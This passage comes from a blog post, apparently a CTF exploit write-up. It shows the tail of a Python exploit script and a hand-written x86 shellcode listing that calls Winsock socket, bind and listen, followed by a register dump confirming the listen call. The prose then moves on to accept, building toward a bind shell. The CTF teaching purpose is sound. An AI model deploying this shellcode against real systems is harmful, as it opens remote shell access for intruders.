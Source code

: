 print "[*] Command {0} chars...".format(len(command))
pwn(command)
{% endcodeblock %}

And this is what we get as shellcode:

{% codeblock ASM listing %}
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
00B5FFD5   89C7             MOV EDI,EAX
00B5FFD7   89D9             MOV ECX,EBX
00B5FFD9   B5 74            MOV CH,74
00B5FFDB   FE41 03          INC BYTE PTR DS:[ECX+3]
00B5FFDE   B3 54            MOV BL,54
00B5FFE0   6A 10            PUSH 10
00B5FFE2   51               PUSH ECX
00B5FFE3   50               PUSH EAX
00B5FFE4   FFD3             CALL EBX
00B5FFE6   CC               INT3
00B5FFE7   B3 5C            MOV BL,5C
00B5FFE9   6A 7F            PUSH 7F
00B5FFEB   57               PUSH EDI
00B5FFEC   FFD3             CALL EBX
{% endcodeblock %}

With the registers containing the following successful result:

{% codeblock Register contents %}
EAX 00000000
ECX 0024CF98
EDX 00000000
EBX 0040345C <JMP.&WS2_32.listen>
ESP 00B5FF44
EBP 42424242
ESI 42424242
EDI 00000084
EIP 00B5FFEE
O 0  LastErr ERROR_SUCCESS (00000000)
{% endcodeblock %}

Making good progress. Now we need to start accepting new connections on our socket, for that we get `accept` set up. The call would normally look like `accept(socket, NULL, NULL)`, but we're in a great spot because `ESP` current points to the middle of bunch of zeros, which means the two `NULL` values are effectively already pushed. This means we save instructions by not pushing them. Instead, we just adjust `EBX` to point at `accept`, push our socket handle and make the call:


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux